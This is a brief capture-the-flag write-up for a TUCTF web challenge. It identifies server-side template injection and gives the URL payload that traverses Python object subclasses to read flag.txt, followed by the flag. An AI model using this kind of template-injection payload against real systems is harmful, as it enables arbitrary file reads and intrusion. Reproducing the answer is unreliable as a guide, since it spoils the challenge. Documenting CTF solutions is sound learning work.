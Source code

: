 # Challenge #
<br>![alt text](web4.png)
<br><br>
# Solution #
<pre>
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)

used following for flag: http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D

TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 
</pre>

